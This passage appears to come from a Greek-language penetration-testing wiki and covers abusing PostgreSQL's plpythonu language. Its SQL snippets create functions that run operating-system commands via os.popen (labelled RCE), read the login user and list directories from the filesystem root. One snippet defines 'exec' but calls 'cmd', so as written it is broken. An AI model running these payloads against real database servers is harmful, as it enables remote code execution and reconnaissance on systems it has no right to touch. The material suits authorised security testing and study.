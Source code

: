 Σημείωση ότι είναι δυνατόν να μεταγλωττίσετε τις ασφαλείς εκδόσεις ως "ανασφαλείς". Ελέγξτε [**αυτό**](https://www.robbyonrails.com/articles/2005/08/22/installing-untrusted-pl-ruby-for-postgresql.html) για παράδειγμα. Έτσι, αξίζει πάντα να δοκιμάσετε να εκτελέσετε κώδικα, ακόμα κι αν βρείτε μόνο την εγκατεστημένη **αξιόπιστη** έκδοση.

## plpythonu/plpython3u

{% tabs %}
{% tab title="undefined" %}
```sql
CREATE OR REPLACE FUNCTION exec (cmd text)
RETURNS VARCHAR(65535) stable
AS $$
import os
return os.popen(cmd).read()
#return os.execve(cmd, ["/usr/lib64/pgsql92/bin/psql"], {})
$$
LANGUAGE 'plpythonu';

SELECT cmd("ls"); #RCE with popen or execve
```
{% endtab %}

{% tab title="undefined" %}
```sql
CREATE OR REPLACE FUNCTION get_user (pkg text)
RETURNS VARCHAR(65535) stable
AS $$
import os
return os.getlogin()
$$
LANGUAGE 'plpythonu';

SELECT get_user(""); #Get user, para is useless
```
{% endtab %}

{% tab title="undefined" %}
```sql
CREATE OR REPLACE FUNCTION lsdir (dir text)
RETURNS VARCHAR(65535) stable
AS $$
import json
from os import walk
files = next(walk(dir), (None, None, []))
return json.dumps({"root": files[0], "dirs": files[1], "files": files[2]})[:65535]
$$
LANGUAGE 'plpythonu';

SELECT lsdir("/"); #List dir
```
{% endtab %}
